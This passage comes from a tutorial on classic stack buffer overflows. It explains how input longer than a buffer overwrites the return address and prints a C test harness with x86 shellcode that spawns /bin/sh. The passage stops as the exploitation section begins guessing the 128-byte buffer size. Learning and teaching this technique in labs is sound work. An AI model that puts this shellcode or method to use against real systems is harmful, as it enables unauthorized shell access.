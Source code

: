 Since our buffer will grow in the return’s address direction, we can overwrite it by supplying input that is bigger than the buffer’s size.

To better understand how the call stack works I recommend [this video](https://www.youtube.com/watch?v=T03idxny9jE) as well as [Wikipedia’s explanation](https://en.wikipedia.org/wiki/Call_stack).

## Shellcode

I won’t be covering how to desing our own shellcode, so I will give you the piece of code that I am using and you can test it yourselves :

```c
#include <stdio.h>

int main(int argc, char** argv) {
    const char sc[] = "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3";

    int (*func)();
    func = (int(*)()) sc;
    (int)(*func)();

    printf("-=[ Shellcode didn't work ]=-\n");
    return 1;
}
```

By compiling and running this program, I obtain a shell :

![Untitled](../images/BOF_Ow_EIP/Untitled%201.png)

## Exploitation

Here comes the beefy part!

We know we need to overflow a buffer in the victim’s program, in our case we know the buffer’s size is 128 bytes, but what if we didn’t know? 

We can just easily guess it by providing different values :

![Untitled](../images/BOF_Ow_EIP/Untitled%202.png)
